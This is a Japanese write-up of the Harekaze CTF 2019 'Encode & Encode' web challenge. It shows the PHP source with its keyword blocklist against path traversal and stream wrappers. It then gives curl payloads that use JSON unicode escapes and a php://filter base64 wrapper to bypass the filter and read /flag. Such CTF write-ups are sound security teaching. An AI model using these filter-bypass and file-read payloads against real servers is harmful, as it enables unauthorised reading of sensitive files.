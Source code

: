```yaml
---
title: "Harekaze CTF 2019 Encode & Encode writeup"
description: "Harekaze CTF 2019 Web Encode writeup"
authors: [hi120ki]
tags: [CTF, Web, Web Security]
slug: posts/20190529
---
```


## Problem

```
I made a strong WAF, so you definitely can't read the flag!
```

<!-- truncate -->

[http://problem.harekaze.com:10001/](http://problem.harekaze.com:10001/)

[http://153.127.202.154:1001/](http://153.127.202.154:1001/)

Docker で問題サーバーを立てることができます

```bash
cd src/
docker build ./ -t harekaze_encode_image
docker run --name harekaze_encode_container -d -p 80:80 harekaze_encode_image
```

## Solution

```html
<script>
  window.addEventListener(
    "DOMContentLoaded",
    () => {
      let content = document.getElementById("content");
      for (let link of document.getElementsByClassName("link")) {
        link.addEventListener(
          "click",
          () => {
            fetch("query.php", {
              method: "POST",
              headers: {
                "Content-Type": "application/json",
              },
              body: JSON.stringify({
                page: link.href.split("#")[1],
              }),
            })
              .then((resp) => resp.json())
              .then((resp) => {
                content.innerHTML = resp.content;
              });
            return false;
          },
          false,
        );
      }
    },
    false,
  );
</script>
```

```php
<?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]);
```

まずフロント側では query.php に対し application/json 形式で page を POST している

```bash
curl -X POST -H "Content-Type: application/json" -d '{"page":"pages/about.html"}' http://localhost/query.php
```

そしてバックエンドでは受け取った json を読み込み、is_valid でチェックをし、file_get_contents でローカルファイルを読み込み、preg_replace を使いファイル内容を置き換えた後出力している。

また、Dockerfile で

```bash
RUN echo "HarekazeCTF{local_test}" > /flag
```

ルートディレクトリに flag ファイルがあることが分かる

よって方向性としては、

- is_valid に検知されないように `{"page":"/flag"}` を POST し、flag ファイルを読み込ませる
- flag ファイルの内容が preg_replace で置き換えられないようにエンコードして出力させる

となる

### is_valid のバイパス

JSON では `\u` と Unicode のコードポイント 16 進数 4 桁でユニコード文字を表現することが可能。

よって

[CyberChef](<https://gchq.github.io/CyberChef/#recipe=Escape_Unicode_Characters('%5C%5Cu',true,4,true)&input=L2ZsYWc>)

```
/flag
\u002F\u0066\u006C\u0061\u0067
```

と変換し、is_valid をバイパスすることができる

### preg_replace のバイパス

Unicode encoding で is_valid をバイパスすると

```bash
curl http://localhost/query.php -d '{"page":"\u002F\u0066\u006C\u0061\u0067"}'
{"content":"HarekazeCTF{&lt;censored&gt;}\n"}
```

flag が読み込まれるが preg_replace によって置き換えられてしまうので

[PHP 変換フィルタ](https://www.php.net/manual/ja/filters.convert.php)

を用いて falg を encode する

[CyberChef](<https://gchq.github.io/CyberChef/#recipe=Escape_Unicode_Characters('%5C%5Cu',true,4,true)&input=cGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT0vZmxhZw>)

```
php://filter/convert.base64-encode/resource=/flag
\u0070\u0068\u0070\u003A\u002F\u002F\u0066\u0069\u006C\u0074\u0065\u0072\u002F\u0063\u006F\u006E\u0076\u0065\u0072\u0074\u002E\u0062\u0061\u0073\u0065\u0036\u0034\u002D\u0065\u006E\u0063\u006F\u0064\u0065\u002F\u0072\u0065\u0073\u006F\u0075\u0072\u0063\u0065\u003D\u002F\u0066\u006C\u0061\u0067
```

```bash
curl "http://localhost/query.php" -d '{"page":"\u0070\u0068\u0070\u003A\u002F\u002F\u0066\u0069\u006C\u0074\u0065\u0072\u002F\u0063\u006F\u006E\u0076\u0065\u0072\u0074\u002E\u0062\u0061\u0073\u0065\u0036\u0034\u002D\u0065\u006E\u0063\u006F\u0064\u0065\u002F\u0072\u0065\u0073\u006F\u0075\u0072\u0063\u0065\u003D\u002F\u0066\u006C\u0061\u0067"}'
{"content":"SGFyZWthemVDVEZ7bG9jYWxfdGVzdH0K"}
```

base64 でデコードし flag get
